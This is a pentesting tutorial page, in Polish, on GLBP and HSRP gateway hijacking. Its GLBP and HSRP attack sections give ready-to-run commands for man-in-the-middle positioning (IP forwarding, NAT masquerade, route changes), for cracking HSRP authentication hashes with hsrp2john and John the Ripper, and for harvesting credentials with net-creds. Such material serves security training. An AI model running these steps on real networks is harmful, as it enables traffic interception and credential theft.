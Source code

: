 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP został zaprojektowany w celu zapewnienia odporności sieciowej poprzez połączenie wielu routerów w jedną wirtualną jednostkę, co zwiększa rozkład obciążenia i tolerancję na awarie. Cisco Systems wprowadziło w tej suite znaczące protokoły, takie jak GLBP i HSRP.

### GLBP Protocol Insights

Stworzenie Cisco, GLBP, działa na stosie TCP/IP, wykorzystując UDP na porcie 3222 do komunikacji. Routery w grupie GLBP wymieniają pakiety "hello" co 3 sekundy. Jeśli router nie wyśle tych pakietów przez 10 sekund, uznaje się go za offline. Jednak te timery nie są stałe i mogą być modyfikowane.

### GLBP Operations and Load Distribution

GLBP wyróżnia się umożliwieniem rozkładu obciążenia pomiędzy routerami przy użyciu jednego wirtualnego adresu IP połączonego z wieloma wirtualnymi adresami MAC. W grupie GLBP każdy router bierze udział w przesyłaniu pakietów. W przeciwieństwie do HSRP/VRRP, GLBP oferuje prawdziwe równoważenie obciążenia poprzez kilka mechanizmów:

- **Host-Dependent Load Balancing:** Utrzymuje stałe przypisanie adresu MAC AVF do hosta, co jest niezbędne dla stabilnych konfiguracji NAT.
- **Round-Robin Load Balancing:** Domyślne podejście, naprzemienne przypisanie adresu MAC AVF pomiędzy żądającymi hostami.
- **Weighted Round-Robin Load Balancing:** Rozkłada obciążenie na podstawie zdefiniowanych metryk "Wagi".

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** Główny router, odpowiedzialny za przydzielanie adresów MAC do routerów partnerskich.
- **AVF (Active Virtual Forwarder):** Router wyznaczony do zarządzania ruchem sieciowym.
- **GLBP Priority:** Metryka, która określa AVG, zaczynająca się od domyślnej wartości 100 i mieszcząca się w zakresie od 1 do 255.
- **GLBP Weight:** Odzwierciedla aktualne obciążenie routera, regulowane ręcznie lub poprzez Object Tracking.
- **GLBP Virtual IP Address:** Służy jako domyślny brama sieciowa dla wszystkich podłączonych urządzeń.

Do interakcji GLBP wykorzystuje zarezerwowany adres multicast 224.0.0.102 i port UDP 3222. Routery przesyłają pakiety "hello" co 3 sekundy i są uznawane za nieoperacyjne, jeśli pakiet zostanie pominięty przez 10 sekund.

### GLBP Attack Mechanism

Atakujący może stać się głównym routerem, wysyłając pakiet GLBP z najwyższą wartością priorytetu (255). Może to prowadzić do ataków DoS lub MITM, umożliwiając przechwytywanie lub przekierowywanie ruchu.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) może przeprowadzić atak GLBP, wstrzykując pakiet z priorytetem i wagą ustawioną na 255. Kroki przed atakiem obejmują zbieranie informacji, takich jak wirtualny adres IP, obecność uwierzytelnienia i wartości priorytetu routera przy użyciu narzędzi takich jak Wireshark.

Attack Steps:

1. Przełącz się w tryb promiskuitywny i włącz przekazywanie IP.
2. Zidentyfikuj docelowy router i pobierz jego adres IP.
3. Wygeneruj Gratuitous ARP.
4. Wstrzyknij złośliwy pakiet GLBP, podszywając się pod AVG.
5. Przypisz dodatkowy adres IP do interfejsu sieciowego atakującego, odzwierciedlając wirtualny adres IP GLBP.
6. Wdróż SNAT dla pełnej widoczności ruchu.
7. Dostosuj routing, aby zapewnić ciągły dostęp do internetu przez oryginalny router AVG.

Postępując zgodnie z tymi krokami, atakujący ustawia się jako "człowiek w środku", zdolny do przechwytywania i analizowania ruchu sieciowego, w tym niezaszyfrowanych lub wrażliwych danych.

Dla demonstracji oto wymagane fragmenty poleceń:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitorowanie i przechwytywanie ruchu można przeprowadzić za pomocą net-creds.py lub podobnych narzędzi do przechwytywania i analizy danych przepływających przez skompromitowaną sieć.

### Pasywne wyjaśnienie przejęcia HSRP z szczegółami poleceń

#### Przegląd HSRP (Hot Standby Router/Redundancy Protocol)

HSRP to protokół własnościowy Cisco zaprojektowany do redundancji bram sieciowych. Umożliwia konfigurację wielu fizycznych routerów w jedną logiczną jednostkę z wspólnym adresem IP. Ta logiczna jednostka jest zarządzana przez główny router odpowiedzialny za kierowanie ruchem. W przeciwieństwie do GLBP, który wykorzystuje metryki takie jak priorytet i waga do równoważenia obciążenia, HSRP polega na jednym aktywnym routerze do zarządzania ruchem.

#### Role i terminologia w HSRP

- **HSRP Active Router**: Urządzenie działające jako brama, zarządzające przepływem ruchu.
- **HSRP Standby Router**: Router zapasowy, gotowy do przejęcia, jeśli router aktywny zawiedzie.
- **HSRP Group**: Zestaw routerów współpracujących w celu utworzenia jednego odpornego wirtualnego routera.
- **HSRP MAC Address**: Wirtualny adres MAC przypisany do logicznego routera w konfiguracji HSRP.
- **HSRP Virtual IP Address**: Wirtualny adres IP grupy HSRP, działający jako domyślna brama dla podłączonych urządzeń.

#### Wersje HSRP

HSRP występuje w dwóch wersjach, HSRPv1 i HSRPv2, różniących się głównie pojemnością grupy, użyciem adresów IP multicast oraz strukturą wirtualnego adresu MAC. Protokół wykorzystuje określone adresy IP multicast do wymiany informacji o usługach, z pakietami Hello wysyłanymi co 3 sekundy. Router uznaje się za nieaktywny, jeśli w ciągu 10 sekund nie otrzyma żadnego pakietu.

#### Mechanizm ataku HSRP

Ataki HSRP polegają na przymusowym przejęciu roli Active Routera poprzez wstrzyknięcie maksymalnej wartości priorytetu. Może to prowadzić do ataku Man-In-The-Middle (MITM). Kluczowe kroki przed atakiem obejmują zbieranie danych o konfiguracji HSRP, co można zrobić za pomocą Wireshark do analizy ruchu.

#### Kroki do ominięcia uwierzytelniania HSRP

1. Zapisz ruch sieciowy zawierający dane HSRP jako plik .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Wyodrębnij hashe MD5 z pliku .pcap za pomocą hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Złam hashe MD5 za pomocą John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Wykonywanie wstrzyknięcia HSRP za pomocą Loki**

1. Uruchom Loki, aby zidentyfikować ogłoszenia HSRP.
2. Ustaw interfejs sieciowy w tryb promiskuitywny i włącz przekazywanie IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Użyj Loki, aby celować w konkretny router, wprowadź złamane hasło HSRP i wykonaj niezbędne konfiguracje, aby udawać Active Routera.
4. Po przejęciu roli Active Routera skonfiguruj swój interfejs sieciowy i tabele IP, aby przechwytywać prawidłowy ruch.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Zmodyfikuj tabelę routingu, aby kierować ruch przez byłego Active Routera.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Użyj net-creds.py lub podobnego narzędzia, aby przechwycić dane uwierzytelniające z przechwyconego ruchu.
```shell
sudo python2 net-creds.py -i eth0
```

Wykonanie tych kroków stawia atakującego w pozycji do przechwytywania i manipulowania ruchem, podobnie jak w przypadku przejęcia GLBP. Podkreśla to podatność protokołów redundancji, takich jak HSRP, oraz potrzebę solidnych środków bezpieczeństwa.

## Referencje

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
